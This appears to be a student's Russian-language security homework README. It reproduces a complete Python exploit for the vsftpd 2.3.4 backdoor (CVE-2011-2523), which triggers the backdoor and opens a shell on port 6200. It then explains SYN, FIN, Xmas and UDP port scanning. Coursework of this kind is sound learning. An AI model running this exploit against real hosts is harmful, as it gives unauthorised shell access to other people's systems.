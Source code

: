 # git_15
Задание 1

![image](https://github.com/user-attachments/assets/53fdcb86-9e64-485a-988a-3372f0394c80)

В Exploit DB нашёл только одну сетевую службу vsftpd 2.3.4
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

Задание 2

![image](https://github.com/user-attachments/assets/6389a3da-a62b-49f2-99ad-cf0d16c1cc43)

![image](https://github.com/user-attachments/assets/d26d8317-fbe6-4766-bd31-fd8bf3c608dd)

![image](https://github.com/user-attachments/assets/ef6c3cee-59d2-4316-bfbd-7d680162ce1e)

![image](https://github.com/user-attachments/assets/a5b9937e-097d-4f59-84c5-d1797ce6f1d0)


SYN сканирование:
- При SYN сканировании отправляется только пакет с флагом SYN, чтобы установить соединение с портом.
- Если порт открыт, целевой хост отправляет пакет с флагами SYN-ACK в ответ.
- SYN сканирование создает минимальный сетевой трафик, так как не завершает установление соединения.

FIN сканирование:
- При FIN сканировании отправляется пакет с флагом FIN, чтобы закрыть соединение с портом.
- Если порт закрыт, целевой хост должен отправить пакет с флагом RST в ответ.
- FIN сканирование создает небольшой сетевой трафик, но может быть менее надежным из-за различий в реакции хоста на закрытие соединения.

Xmas сканирование:
- При Xmas сканировании отправляются пакеты с установленными флагами FIN, URG и PUSH.
- Если порт закрыт, целевой хост должен отправить пакет с флагом RST в ответ.
- Xmas сканирование создает необычный сетевой трафик, что может помочь обойти некоторые средства обнаружения сканирования.

UDP сканирование:
- При UDP сканировании отправляются пакеты UDP на порты для определения их состояния.
- Если порт закрыт, целевой хост должен отправить пакет ICMP с сообщением о недоступности порта.
- UDP сканирование может создавать больше сетевого трафика из-за необходимости обработки ICMP сообщений.		

		
